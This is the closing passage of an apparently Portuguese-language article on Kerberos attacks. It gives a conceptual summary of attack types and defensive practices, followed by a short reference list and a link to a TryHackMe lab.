Em conclusão, os **ataques ao Kerberos** são uma ameaça significativa para a segurança da rede, podendo resultar em acesso não autorizado a recursos protegidos. Os diferentes tipos de **ataques ao Kerberos**, como força bruta, replay, injeção de pacotes, man-in-the-middle e negação de serviço, apresentam desafios únicos para a segurança da rede.

Além desses tipos de ataques, existem outras técnicas maliciosas que os invasores podem usar para obter acesso não autorizado. Uma dessas técnicas é conhecida como "pass the hash", que envolve o uso de hashes de senha roubados para acessar sistemas protegidos. Outra técnica é o "dump de senhas", que envolve a extração de senhas armazenadas em um sistema e o uso dessas senhas para acessar outros sistemas protegidos.

Para proteger contra **ataques ao Kerberos** e outras técnicas maliciosas, é essencial implementar boas práticas de segurança, como senhas fortes, criptografia forte, monitoramento de rede e atualizações regulares de software. Também é importante treinar os usuários para detectar e evitar ataques de engenharia social, que muitas vezes são o ponto de entrada para ataques cibernéticos mais avançados.

Em resumo, a segurança da rede é uma responsabilidade compartilhada entre os usuários e as equipes de segurança da informação. Somente com uma abordagem holística e pró-ativa para a segurança da rede podemos garantir a proteção adequada contra **ataques ao Kerberos** e outras ameaças cibernéticas.

---

## **<a id="11"> • Referências.</a>**

- [Delinea - Privilege Escalation on Windows](https://delinea.com/blog/windows-privilege-escalation)

- [Nopsec - Exploiting Kerberos for Lateral Movement and Privilege Escalation](https://www.nopsec.com/blog/exploiting-kerberos-for-lateral-movement-and-privilege-escalation/)

- [ChatGPT](https://chat.openai.com/chat)

---

## **<a id="12"> • Laboratório.</a>**

  - [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)


